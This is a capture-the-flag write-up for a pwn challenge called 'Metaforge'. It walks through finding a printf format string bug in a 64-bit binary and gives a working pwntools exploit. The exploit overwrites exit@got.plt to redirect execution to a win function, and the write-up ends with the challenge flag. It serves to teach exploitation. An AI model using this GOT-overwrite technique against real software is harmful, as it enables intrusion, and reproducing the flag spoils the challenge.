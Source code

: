 # Metaforge

nc 0.cloud.chals.io 30732

The format is key, but don't take it at face value. Forge your path to the flag.

## Challenge

Running checksec to see protections and file to see what we are working with:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, BuildID[sha1]=2560d12ac4e382bc779adc5fd99a7496e406175e, for GNU/Linux 3.2.0, not stripped
```

Nothing really sticking out yet, lets run the file.

```
└─$ ./chall  
This challenge seems easy enough
%p
0x7feac5456b23
```

And already we see a format string vulnerability. Let's dive into the code.

```c
void main(void)

{
  char *local_78;
  size_t local_70;
  char local_68 [96];
  
  local_70 = 0x60;
  memset(local_68,0,0x60);
  local_78 = local_68;
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  puts("This challenge seems easy enough");
  getline(&local_78,&local_70,stdin);
  printf(local_68);
                    /* WARNING: Subroutine does not return */
  _exit(0);
}

void win(void)

{
  int __in_fd;
  
  __in_fd = open("./flag.txt",0,0);
  sendfile(1,__in_fd,(off_t *)0x0,0x60);
  return;
}

```

Again looks like a standard printf vulnerability. 

The trick to this one was that we can overwrite the value of `exit@got.plt`, and lead it to our win function. We have a 96 byte buffer so that should be more than enough for a pwntools format string payload.

Poking around with the binary we can find the offset to give to pwntools:
```
└─$ ./chall
This challenge seems easy enough
AAAAAAAA %p %p %p %p %p %p %p %p
AAAAAAAA 0x7ff7e5e81b23 0x1 0x7ffc6ae6ee0a (nil) 0x7ff7e5e96b10 0x7ffc6ae6ef00 0x60 0x4141414141414141
```
We can see its at the 8th offset.

```python
from pwn import *

elf = context.binary = ELF('./chall')
#p = process('./chall')
p = remote('0.cloud.chals.io', 30732)

#Offset to write address at
offset = 8
#Where we want to write to (exit@got.plt)
target = 0x404000
#What we want to write it to (win function)
win = 0x0000000000401196

payload = fmtstr_payload(offset, {target : win})
p.sendline(payload)
p.interactive()
```

Using this format string allows us to trick the binary into thinking it is running the exit function when it's actually running the win function instead.

## Flag

`SIVUSCG{FORMAT_STRINGS_ALL_DAY}`